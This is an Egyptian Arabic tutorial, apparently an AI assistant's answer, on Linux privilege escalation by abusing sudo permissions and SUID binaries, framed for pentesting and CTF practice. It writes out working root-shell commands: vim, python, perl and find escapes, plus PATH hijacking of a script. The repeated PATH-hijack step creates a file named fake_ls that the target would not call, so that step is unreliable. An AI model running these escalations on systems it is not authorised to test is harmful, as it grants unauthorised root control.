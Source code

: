 تمام، هديك شرح عملي عميق مع الأوامر والاستغلالات، وفي النهاية هحط لك خطوات **Pentesting عملية** للاستغلال. وهلخص كل جزء بالعامية بعد شرحه.

---

## 🔥 **1. استغلال أوامر sudo (Abusing Sudo Privileges)**

في بعض الأحيان، المستخدم بيكون عنده صلاحية تشغيل أوامر معينة بـ `sudo` من غير كلمة مرور، وده ممكن يكون مدخل للاستغلال.

### 🔹 **1.1 معرفة الأوامر اللي نقدر نشغلها بـ sudo**

أول خطوة إنك تشوف إيه الأوامر اللي تقدر تشغلها بـ `sudo`:

```bash
sudo -l
```

ده هيعرض قائمة بالأوامر المسموح بيها. لو لقيت أمر ممكن تستخدمه لفتح Shell، يبقى عندك طريق للاستغلال.

### 🔹 **1.2 استغلال أوامر فيها ثغرات للتصعيد**

لو مثلا الأمر `vim` موجود في القائمة، تقدر تفتح **Shell بصلاحيات root** كالتالي:

```bash
sudo vim -c '!sh'
```

أو لو `python3` متاح:

```bash
sudo python3 -c 'import pty; pty.spawn("/bin/bash")'
```

نفس الفكرة مع `perl`:

```bash
sudo perl -e 'exec "/bin/sh";'
```

أوامر تانية زي `find`، `awk`، `tar`، و `zip` ليهم نفس الاستغلالات. ممكن تستخدم موقع **GTFOBins** للبحث عن أي أمر عندك وتشوف استغلاله:  
[https://gtfobins.github.io/](https://gtfobins.github.io/)

### ✅ **الخلاصة بالعامية:**

لو تقدر تشغل أوامر معينة بـ `sudo`، دور على أمر ممكن يفتح لك Shell بصلاحيات **root**. استخدم `sudo -l` وشوف لو فيه حاجة تقدر تستغلها.

---

## 🔥 **2. استغلال ملفات SUID (Abusing SUID Binaries)**

### 🔹 **2.1 البحث عن ملفات SUID**

نستخدم الأمر ده للبحث عن كل الملفات اللي عليها SUID:

```bash
find / -perm -4000 2>/dev/null
```

ده هيجيب كل الملفات اللي بتشتغل بصلاحيات صاحبها (غالبًا root).

### 🔹 **2.2 استغلال ملف SUID بيشغل أوامر**

لو لقيت ملف زيه زي `find` عنده SUID، تقدر تشغله كالتالي:

```bash
/usr/bin/find . -exec /bin/bash -p \;
```

وده هيفتح لك Shell بصلاحيات root.

### 🔹 **2.3 لو ملف SUID بيستدعي أمر غير آمن**

لو عندك ملف `custom_script` وعرفت إنه بيستدعي `ls` مثلًا جواه، تقدر تعمل التالي:

```bash
echo "/bin/sh" > ls
chmod +x ls
export PATH=.:$PATH
/custom_script
```

وده هيشغل Shell بصلاحيات root لإنه بيستخدم `ls` من الـ PATH اللي انت عدلته.

### ✅ **الخلاصة بالعامية:**

لو فيه ملف عليه SUID، جرب تشوف بيعمل إيه، ولو بيشغل أوامر، ممكن تخليه يشغل Shell بصلاحيات root.

---

## 🚀 **خطوات Pentesting عملية لاستغلال sudo و SUID**

### 🔥 **1. استغلال sudo (Privilege Escalation via Sudo)**

#### ✅ **الخطوات:**

1. شوف إيه الأوامر اللي تقدر تشغلها بـ `sudo`:
    
    ```bash
    sudo -l
    ```
    
2. لو لقيت أمر ممكن يستغل، جرب تشغيل Shell:
    
    ```bash
    sudo python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
    
3. لو لقيت أمر بيشغل ملفات، جرب تعمل **Hijacking** للملف اللي بيشغله.

---

### 🔥 **2. استغلال SUID (Privilege Escalation via SUID Binaries)**

#### ✅ **الخطوات:**

1. دور على كل ملفات SUID:
    
    ```bash
    find / -perm -4000 2>/dev/null
    ```
    
2. شوف لو فيه أمر معروف عنده SUID، زي `find` أو `vim` أو `bash`:
    
    ```bash
    /usr/bin/find . -exec /bin/bash -p \;
    ```
    
3. لو الملف بيستدعي أمر معين، اعمل **Hijacking** باستخدام PATH Variable:
    
    ```bash
    echo "/bin/sh" > fake_ls
    chmod +x fake_ls
    export PATH=.:$PATH
    /custom_script
    ```
    

---

## 🔥 **الخلاصة العامة بالعامية:**

1. **sudo -l** ده أول حاجة تشوفها، لو تقدر تشغل حاجة بـ sudo بدون باسورد، غالبًا تقدر توصل لـ root.
2. **لو لقيت SUID file**، شوف بيعمل إيه، وجرب تشغله بطرق مختلفة.
3. **لو ملف بيستدعي أوامر خارجية**، حاول تلعب في الـ PATH وتخليه يشغل حاجة انت عاملها بنفسك.

💡 **نصيحة**: لو بتلعب في CTF أو بتعمل **Privilege Escalation**، دايمًا جرب **GTFOBins** و `sudo -l` و `find / -perm -4000` كخطوات أولى. 🚀